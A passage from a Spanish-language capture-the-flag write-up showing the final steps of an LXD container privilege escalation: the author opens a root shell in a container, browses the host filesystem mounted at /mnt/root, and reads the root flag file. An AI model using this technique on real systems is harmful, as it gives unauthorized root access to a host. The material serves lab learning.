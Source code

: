 * Ejecutando una sesión Shell dentro del **contenedor test**:
```bash
concebolla@tortillapapas:~$ lxc exec test /bin/sh
# whoami
root
# /bin/bash
root@test:~#
```

* También pudimos haber ejecutado una **sesión de Bash**:
```bash
concebolla@tortillapapas:/home/sincebolla$ lxc exec test -- /bin/bash
root@test:~#
```

* Listando los archivos del contenedor:
```bash
root@test:~# ls -lha /mnt/root
total 68K
drwxr-xr-x  18 root root 4.0K Apr 12  2024 .
drwxr-xr-x   3 root root 4.0K Mar 23 07:39 ..
lrwxrwxrwx   1 root root    7 Apr 12  2024 bin -> usr/bin
drwxr-xr-x   3 root root 4.0K Apr 12  2024 boot
drwxr-xr-x  17 root root 3.3K Mar 23 07:37 dev
drwxr-xr-x  74 root root 4.0K Mar 23 04:59 etc
drwxr-xr-x   4 root root 4.0K Apr 13  2024 home
lrwxrwxrwx   1 root root   30 Apr 12  2024 initrd.img -> boot/initrd.img-6.1.0-18-amd64
lrwxrwxrwx   1 root root   30 Apr 12  2024 initrd.img.old -> boot/initrd.img-6.1.0-18-amd64
lrwxrwxrwx   1 root root    7 Apr 12  2024 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Apr 12  2024 lib64 -> usr/lib64
drwx------   2 root root  16K Apr 12  2024 lost+found
drwxr-xr-x   3 root root 4.0K Apr 12  2024 media
drwxr-xr-x   2 root root 4.0K Apr 12  2024 mnt
drwxr-xr-x   2 root root 4.0K Apr 16  2024 opt
dr-xr-xr-x 162 root root    0 Mar 23 04:59 proc
drwx------   4 root root 4.0K Apr 18  2024 root
drwxr-xr-x  22 root root  640 Mar 23 07:37 run
lrwxrwxrwx   1 root root    8 Apr 12  2024 sbin -> usr/sbin
drwxr-xr-x   2 root root 4.0K Apr 12  2024 srv
dr-xr-xr-x  13 root root    0 Mar 23 04:59 sys
drwxrwxrwt   8 root root 4.0K Mar 23 07:39 tmp
drwxr-xr-x  12 root root 4.0K Apr 12  2024 usr
drwxr-xr-x  12 root root 4.0K Apr 12  2024 var
lrwxrwxrwx   1 root root   27 Apr 12  2024 vmlinuz -> boot/vmlinuz-6.1.0-18-amd64
lrwxrwxrwx   1 root root   27 Apr 12  2024 vmlinuz.old -> boot/vmlinuz-6.1.0-18-amd64
```
Observa que se copiaron todos los archivos de la máquina víctima.

Esto quiere decir que podemos ver los archivos del **Root**, incluso la flag:
```bash
root@test:~# cd /mnt/root/root
root@test:/mnt/root/root# ls -la
total 36
drwx------  4 root root 4096 Apr 18  2024 .
drwxr-xr-x 18 root root 4096 Apr 12  2024 ..
lrwxrwxrwx  1 root root    9 Apr 14  2024 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rw-------  1 root root   20 Apr 15  2024 .lesshst
drwxr-xr-x  3 root root 4096 Apr 12  2024 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   66 Apr 18  2024 .selected_editor
drwx------  2 root root 4096 Apr 14  2024 .ssh
-rw-r--r--  1 root root   33 Apr 16  2024 root.txt
root@test:/mnt/root/root# cat root.txt
...
```